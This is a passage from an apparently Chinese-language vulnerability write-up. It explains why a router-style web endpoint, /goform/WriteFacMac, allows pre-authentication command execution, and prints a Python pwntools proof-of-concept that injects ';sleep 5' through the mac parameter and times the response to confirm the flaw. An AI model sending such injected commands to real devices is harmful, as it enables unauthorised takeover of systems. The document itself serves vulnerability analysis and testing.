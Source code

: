 此 POC 不需登入帳密，可見 "Post-auth to Pre-auth" 部分；也可從 script 中看到，request 本身沒有攜帶 cookie 也可執行成功，因此得知此 POC 為 pre-auth RCE。

```python=
import sys
from pwn import *

context.log_level = 'error'

HOST = sys.argv[1]
PORT = 80
PATH = 'GET /goform/WriteFacMac?a=img/main-logo.png'

if len(sys.argv) < 2 or len(sys.argv) > 3:
    print(f"Usage: {sys.argv[0]} <HOST> [PORT]")
    sys.exit(1)

if len(sys.argv) == 3:
    PORT = int(sys.argv[2])

# get standard response time

start_time = time.time()

r = remote(HOST, PORT)
r.send(
    f"{PATH} HTTP/0.9 \r\n HOST: {HOST} \r\n\r\n".encode()
)
r.recvall()
r.close()

end_time = time.time()
standard_time = end_time - start_time

# try to execute command

start_time = time.time()

r = remote(HOST, PORT)
r.send(
    f"{PATH}&mac=;sleep%205 HTTP/0.9 \r\n HOST: {HOST} \r\n\r\n".encode()
)
recv = r.recvall()
r.close()

end_time = time.time()
command_time = end_time - start_time

# validate the vulnerability

if recv == b"modify mac only." and command_time - standard_time > 5:
    print("[+] The target seems vulnerable")
else:
    print("[-] The target seems not vulnerable")
```
